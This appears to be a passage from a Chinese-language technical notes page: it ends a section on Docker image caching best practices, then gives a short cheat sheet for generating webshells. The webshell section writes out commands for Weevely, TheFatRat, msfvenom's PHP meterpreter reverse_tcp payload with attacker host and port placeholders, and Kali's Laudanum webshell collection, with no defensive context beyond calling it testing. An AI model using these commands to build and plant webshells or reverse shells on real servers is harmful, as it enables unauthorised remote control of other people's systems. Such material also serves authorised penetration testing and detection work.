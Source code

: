 * 首次构建：完整构建环境镜像
* 缓存构建：使用层缓存重新构建
* 直接使用：复用已构建的镜像

### 5. 最佳实践
1. 在开发环境中使用缓存机制
2. 在CI/CD中定期预构建更新
3. 根据需要调整缓存策略
4. 合理组织Dockerfile层次结构
5. 及时清理不需要的镜像和缓存


## 测试多种webshell生成器
* 1 Weevely
```
# 安装
apt-get install weevely

# 生成webshell
weevely generate <password> <path>
# 例如：
weevely generate mypass123 /tmp/shell.php
```

* 2 TheFatRat
```
# 克隆仓库
git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
# 安装
chmod +x setup.sh
./setup.sh
# 运行后可以选择生成各种类型的webshell
```

* 3 Metasploit Framework
```
# 生成PHP webshell
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

* 4 Laudanum
```
# Kali Linux自带
ls /usr/share/webshells/laudanum/
# 包含多种类型的webshell
```
